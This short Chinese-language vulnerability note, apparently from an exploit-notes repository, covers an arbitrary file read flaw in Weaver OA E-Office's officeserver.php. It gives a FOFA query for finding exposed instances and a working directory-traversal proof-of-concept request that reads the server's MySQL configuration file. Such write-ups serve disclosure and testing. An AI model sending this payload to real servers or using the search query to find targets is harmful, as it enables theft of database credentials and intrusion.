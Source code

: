 # 泛微OA E-Office officeserver.php 任意文件读取漏洞

## 漏洞描述

泛微OA E-Office officeserver.php文件存在任意文件读取漏洞，攻击者通过漏洞可以下载服务器上的任意文件

## 漏洞影响

```
泛微OA E-Office
```

## FOF

```
app="泛微-EOffice"
```

## 漏洞复现

登录页面

![image-20220520140739224](./images/202205201407281.png)

验证POC

```
/iweboffice/officeserver.php?OPTION=LOADFILE&FILENAME=../mysql_config.ini
```

![image-20220520140749985](./images/202205201407034.png)